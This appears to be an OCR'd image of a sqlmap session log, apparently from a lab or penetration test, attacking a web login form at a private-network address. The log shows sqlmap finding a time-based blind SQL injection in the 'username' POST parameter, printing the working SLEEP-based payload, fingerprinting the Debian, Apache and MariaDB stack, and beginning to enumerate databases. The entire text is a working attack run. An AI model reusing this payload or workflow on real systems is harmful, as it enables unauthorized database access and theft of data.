 ```
[03:35:09] [INFO] checking if the target is protected by some kind of WAF/IPS
[03:35:09] [INFO] testing if the target URL content is stable
[03:35:10] [INFO] target URL content is stable
[03:35:10] [INFO] testing if POST parameter 'username' is dynamic
[03:35:10] [WARNING] POST parameter 'username' does not appear to be dynamic
[03:35:10] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[03:35:10] [INFO] testing for SQL injection on POST parameter 'username'
[03:35:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:35:10] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:35:10] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:35:10] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[03:35:10] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[03:35:10] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[03:35:10] [INFO] testing 'Generic inline queries'
[03:35:10] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[03:35:10] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:35:10] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:35:10] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:35:20] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[03:35:20] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:35:20] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
got a 302 redirect to 'http://192.168.5.74/administrator/profile.php'. Do you want to follow? [Y/n] Y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [y/N] N
[03:35:20] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[03:35:20] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[03:35:20] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 88 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1904 FROM (SELECT(SLEEP(5)))Duox) AND 'rSty'='rSty&password=admin&submit=
---
[03:35:36] [INFO] the back-end DBMS is MySQL
[03:35:36] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
do you want sqlmap to try to optimize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] Y
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[03:35:41] [INFO] fetching database names
[03:35:41] [INFO] fetching number of databases
[03:35:41] [INFO] retrieved: 4
[03:35:46] [INFO] retrieved: 
[03:35:51] [INFO] adjusting time delay to 1 second due to good response times
information_schema
```
